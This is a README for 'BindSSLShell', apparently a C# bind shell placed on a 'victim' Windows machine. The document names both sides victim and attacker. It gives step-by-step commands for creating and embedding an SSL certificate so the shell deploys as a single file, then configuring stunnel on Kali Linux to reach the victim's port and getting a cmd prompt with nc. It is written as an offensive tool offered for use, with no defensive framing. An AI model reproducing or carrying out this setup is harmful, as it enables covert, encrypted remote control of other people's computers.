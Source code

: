 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)
1. create the certificate:
	1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
	2. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
	3. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password

2 include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy.
	Eventually you can embed the certificate and load it at runtime, more info:
	 https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file
	so you will have to deploy a single file
	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc
1 install stunnel:
	apt-get install stunnel

2 configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	[nc]
	client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
3 start stunnel
	service stunnel4 start
		
4 check if it's running (optional)
	# netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

5 presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	nc localhost 8443
	
6 you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
